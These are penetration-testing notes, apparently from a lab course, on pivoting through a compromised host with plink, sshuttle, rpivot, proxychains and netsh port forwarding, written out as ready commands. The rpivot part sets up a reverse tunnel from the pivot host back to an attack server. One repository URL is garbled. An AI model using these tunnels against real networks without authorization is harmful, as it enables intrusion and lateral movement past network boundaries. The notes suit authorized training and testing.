 
## Plink (Part of putty suite) Windows Method

Setting up ssh socks proxy via plink
```cmd-session
plink -ssh -D 9050 ubuntu@10.129.15.50
```


## sshuttle

Installing
```shell-session
sudo apt-get install sshuttle
```

Running
```shell-session
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v
```
With this command, sshuttle creates an entry in our `iptables` to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

Run commands like usual since we have the entry within iptables and traffic is being routed.

## Rpivot
	https://github.ccd rpom/klsecservices/rpivot

Starting from attack host
```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Transferring rpivot via ssh
```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

Running rpivot on pivot target
```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Connect via proxychains
```shell-session
proxychains firefox-esr 172.16.5.135:80
```

Connect to web server via http-proxy & NTLM Auth
```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```


## Netsh


port forwarding
```cmd-session
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

verify forwarding 
```cmd-session
netsh.exe interface portproxy show v4tov4
```
